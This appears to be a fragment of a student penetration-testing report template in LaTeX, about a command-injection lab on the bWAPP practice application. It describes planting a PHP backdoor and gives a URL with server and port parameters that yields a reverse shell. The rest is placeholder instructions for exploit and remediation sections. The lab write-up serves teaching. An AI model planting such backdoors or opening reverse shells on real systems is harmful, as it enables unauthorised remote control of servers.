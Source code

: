 \documentclass{article}
\begin{document}
We piped the command \ref{bash:backdoor} into the file inserted\_backdoor.php and now when we acces the url "http://10.0.2.4/bWAPP/inserted\_backdoor.php?server=10.0.2.15 \&port=4747",
the server will give us a reverse shell. \ref{fig:backdoor-installed}

\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/command-injection/backdoor-installed.png}
    \caption{\label{fig:backdoor-installed}How to connect to the server after the backdoor has installed}
\end{figure}

\subsection{Manual Exploit}
\label{}

\textcolor{blue}{-- commands provided to extract data}

\textcolor{blue}{-- screenshots}


\subsection{Automated Exploit}
\label{}
\textcolor{blue}{- a piece of code (Python, Java, etc.) that automates the vulnerability exploited such that data is extracted/changed/updated/compromised as using/exploiting the vulnerability.}



\section{Remediation Steps}
\label{}

\textcolor{blue}{\textit{For the offensive approach} $->$\\
    (1) Indicate steps to provide vulnerability remediation. E.g., piece of code, particular recommendations, etc.}

\textcolor{blue}{\textit{For the defensive approach} $->$\\
    (1) Remediate/neutralize the vulnerabilities selected (3+) following the SAST tool recommendations.}\\
\textcolor{blue}{(2) For each vulnerability indicate the change in the code that is applied to fix the vulnerability. If there are multiple solutions available provide reasoning for the selected one.} \\
\textcolor{blue}{(3) Perform re-scan to prove the removal of the vulnerability, i.e., include a screenshot with a report summary (\#C, \#H, \#M, \#L) and details about the vulnerabilities re-detected.}
\end{document}
